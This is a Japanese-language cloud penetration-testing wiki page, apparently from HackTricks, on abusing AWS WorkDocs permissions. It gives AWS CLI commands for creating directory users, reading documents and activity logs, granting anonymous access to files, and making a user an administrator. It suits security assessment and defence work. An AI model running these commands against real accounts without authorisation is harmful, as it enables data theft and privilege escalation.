 # AWS - WorkDocs Privesc

## WorkDocs

WorkDocsに関する詳細情報は以下を参照してください：

{% content-ref url="../aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

指定されたディレクトリ内にユーザーを作成すると、WorkDocsとADの両方にアクセスできます。

```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```

### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

ファイルには機密情報が含まれている可能性がありますので、それらを読み取ってください。

```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```

### `workdocs:AddResourcePermissions`

何かを読むアクセス権がない場合、それを付与するだけで済みます。

```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```

### `workdocs:AddUserToGroup`

ユーザーを管理者にするには、グループZOCALO\_ADMINに設定します。\
そのためには、[https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)の手順に従ってください。

そのユーザーでworkdocにログインし、管理者パネルにアクセスします。パスは`/workdocs/index.html#/admin`です。

CLIからこれを行う方法は見つかりませんでした。
